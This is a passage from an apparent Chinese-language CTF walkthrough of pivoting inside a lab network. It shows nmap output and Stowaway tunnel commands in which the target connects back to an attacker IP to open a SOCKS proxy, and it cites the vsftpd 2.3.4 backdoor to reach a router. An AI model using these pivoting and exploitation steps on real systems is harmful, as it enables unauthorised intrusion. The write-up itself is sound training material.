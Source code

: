 ```bash
2601/tcp open  zebra
2605/tcp open  bgpd

Nmap done: 256 IP addresses (2 hosts up) scanned in 4.07 seconds
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap -sT -p- --min-rate 1000 172.18.0.2/16 

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-11-04 04:24 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Stats: 0:06:19 elapsed; 65534 hosts completed (2 up), 2 undergoing Connect Scan
Connect Scan Timing: About 75.59% done; ETC: 04:31 (0:00:19 remaining)
Nmap scan report for ip-172-18-0-1.eu-west-1.compute.internal (172.18.0.1)
Host is up (0.00042s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-alt

Nmap scan report for app.ctx.ctf (172.18.0.2)
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 65536 IP addresses (2 hosts up) scanned in 420.52 seconds
```

### www-data(172.18.0.2/172.16.1.10) —> root(172.16.1.128 Router1)

在这里我使用了[Stowaway](https://www.notion.so/Stowaway-31606ef1a65e4bffac6f7d9f9791f69c?pvs=21) 此工具来进行端口转发

1. 上传需要使用的工具
2. 在攻击端执行 : `./linux_x86_admin -l 9999`
3. 靶机端执行 : `./linux_x86_agent -c 10.10.235.60:9999` 
4. 连接成功后, 选择对应的节点执行 : `socks 8888` , 现在我们就可以通过 127.0.0.1:8888 来和我们的主机进行连接了

因为在172.16.1.128 发现存在 FTP 服务, 同时我发现其版本为 : `(vsFTPd 2.3.4)` 此版本对应的存在一个漏洞, [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757) 之后我们利用此来进行连接

![image-20240709203419152](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203420.png)

:::tip
💡 从网络拓扑来看我们进入了 Router1

:::

在此处进行信息收集获取到网络信息:

```bash
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:10:0C:65  
          inet addr:172.16.12.101  Bcast:172.16.12.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:600 errors:0 dropped:0 overruns:0 frame:0
          TX packets:547 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:36273 (35.4 KiB)  TX bytes:32769 (32.0 KiB)

eth1      Link encap:Ethernet  HWaddr 02:42:AC:10:01:80  
          inet addr:172.16.1.128  Bcast:172.16.1.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:66351 errors:0 dropped:0 overruns:0 frame:0
```